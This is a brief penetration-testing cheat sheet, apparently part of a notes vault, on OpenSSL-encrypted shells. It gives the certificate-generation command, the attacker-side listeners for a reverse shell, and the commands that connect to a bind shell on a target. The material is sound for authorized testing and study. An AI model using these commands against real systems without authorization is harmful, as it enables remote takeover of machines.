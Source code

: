 # OpenSSL

## 01 - Reverse Shell

- Generate TLS certificate.

```
user@pentestos:~$ openssl req -x509 -newkey rsa:4096 -days 365 -nodes -subj "/C=<country_code>/ST=<state>/L=<locality>/O=<organization_name>/OU=<organization_unit>/CN=<domain.com>/emailAddress=<email> -keyout private.key -out certificate.crt
```

- Shell handler.

```
user@pentestos:~$ openssl s_server -quiet -key private.key -cert certificate.crt -port <PORT>

user@pentestos:~$ ncat --ssl --ssl-key private.key --ssl-cert certificate.crt -lp <PORT>
```

## 02 - Bind Shell

- Shell handler

```
user@pentestos:~$ openssl s_client -quiet -connect <target_IP>:<target_PORT>

user@pentestos:~$ ncat --ssl <target_IP> <target_PORT>
```


---
## References

- [[Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/02 - Callback Shells/OneLiners/Linux/Reverse Shells/OpenSSL|OpenSSL: Reverse Shells]]

- [[Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/02 - Callback Shells/OneLiners/Linux/Bind Shells/OpenSSL|OpenSSL: Bind Shells]]